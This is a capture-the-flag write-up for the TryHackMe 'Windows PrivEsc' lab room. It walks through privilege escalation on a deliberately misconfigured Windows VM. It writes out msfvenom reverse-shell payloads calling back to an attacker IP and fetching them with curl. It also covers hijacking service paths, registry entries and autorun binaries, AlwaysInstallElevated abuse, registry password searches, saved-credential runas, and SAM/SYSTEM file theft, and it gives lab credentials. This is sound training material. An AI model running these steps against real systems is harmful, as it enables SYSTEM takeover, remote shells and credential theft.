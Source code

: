 # [Windows PrivEsc](https://tryhackme.com/room/windows10privesc)

> Practice your Windows Privilege Escalation skills on an intentionally misconfigured Windows VM with multiple ways to get admin/SYSTEM! RDP is available. Credentials: user:password321

## Generate a Reverse Shell Executable

generate a reverse shell executable using msfvenom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.37.45 LPORT=4444 -f exe -o reverse.exe
python3 -m http.server
```

on windows 10 machine

```
curl 10.18.37.45:8000/reverse.exe -o reverse.exe
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ca36fef7-fb30-490d-8cdb-4fe80ecec0cb)

## Service Exploits - Insecure Service Permissions

use accesschk.exe to check the "user" account's permissions on the "daclsvc" service

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

note that we has permission to change the service config

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/cdd9f8be-06ee-4513-b18b-bf311c967c12)

query the service

```
sc qc daclsvc
```

note that it runs with LocalSystem privileges

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/eb5d8b44-0830-4cfa-9e3a-8b93afdd8f80)

modify the service config and set the binpath to our reverse.exe

```
sc config daclsvc binpath= "\"C:\Users\user\Desktop\reverse.exe\""
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/023a38cd-e46f-48c1-8614-e8e629e976d2)

now, start another listener and run the service

```
net start daclsvc
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/91c0d9a0-94ac-4a53-8691-ce418f0e2b4a)

## Service Exploits - Unquoted Service Path

query the "unquotedsvc" service

```
sc qc unquotedsvc
```

note that it runs with LocalSystem privileges and the BINARY_PATH_NAME is unquoted and contains spaces

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/34461819-21a8-415e-8566-083fb8eb5668)

using accesschk.exe again

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

note that BUILTIN\Users group is allowed to write

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f9aba4f4-9ef4-4a1d-a984-3cda2a0fd070)

```
copy C:\Users\user\Desktop\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

now, start another listener and run the service

```
net start unquotedsvc
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/518160aa-d719-4c3b-8961-037ebbc33ae6)

## Service Exploits - Weak Registry Permissions

query the "regsvc" service

```
sc qc regsvc
```

note that it runs with LocalSystem privileges

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0a5e87d3-6d01-4c5d-b1de-fe393e466218)

using accesschk.exe again

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

note that the registry entry is writable by the "NT AUTHORITY\INTERACTIVE" group (all logged-on users)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5a20f6c2-18ac-4b45-8404-0335708a97b5)

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Users\user\Desktop\reverse.exe /f
```

now, start another listener and run the service

```
net start regsvc
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/87705866-e9a3-4327-9fd0-4025d328f153)

## Service Exploits - Insecure Service Executables

query the "filepermsvc" service

```
sc qc filepermsvc
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c3810a93-cdbd-4144-a6c7-6aafd41c868a)

using accesschk.exe again

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

note that the service binary is writable by everyone

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/619bd38f-9453-440f-962f-4b2303cbbc16)

```
copy C:\Users\user\Desktop\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

now, start another listener and run the service

```
net start filepermsvc
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/182af3cc-1af3-4f1a-a5e5-41b0767732df)

## Registry - AutoRuns

query the registry for AutoRun executables

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b66179b8-83b7-49a1-a37c-056eba3c1167)

using accesschk.exe again

```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

note that the AutoRun program is writable by everyone

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/aff2109d-c318-4d27-9965-3baaeba7fb6e)

```
copy C:\Users\user\Desktop\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

now, start another listener

restart the windows machine and login again to trigger reverse shell

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/115afb27-1031-4e2b-a42e-fbd2028149ec)

## Registry - AlwaysInstallElevated

query the registry for AlwaysInstallElevated keys

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

note that both keys are set to 1 (0x1)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/da181abc-1d73-414d-9b59-87fba7aa82a0)

generate a reverse shell Windows Installer using msfvenom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.37.45 LPORT=4444 -f msi -o reverse.msi
python3 -m http.server
```

on windows 10 machine

```
curl 10.18.37.45:8000/reverse.msi -o reverse.msi
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/966f35ff-328e-4c31-bb7e-695b4391c664)

now, start another listener and run the service

```
msiexec /quiet /qn /i C:\Users\user\Desktop\reverse.msi
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3f5294ba-8d77-4ab0-ab36-69d687fbda40)

## Passwords - Registry

before this step, admin account need login with admin:password123

sometimes registry can be searched for keys and values that contain the word "password"

```
reg query HKLM /f password /t REG_SZ /s
```

or query this specific key to find admin AutoLogon credentials

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0b385b15-c413-431a-b8fa-28b012f22ac3)

## Passwords - Saved Creds

list any saved credentials

```
cmdkey /list
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ab934362-fc78-448c-9e8b-2cab5fa44a1a)

now, start another listener and run the service

```
runas /savecred /user:admin C:\Users\admin\Desktop\reverse.exe
```

## Passwords - Security Account Manager (SAM)

the SAM and SYSTEM files can be used to extract user password hashes

transfer the SAM and SYSTEM files to our machine

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c715c4f7-7f5c-46cb-9b45-dc036341e29b)

```
smbclient //10.10.80.166/Repair
ls
get SAM
get SYSTEM
```































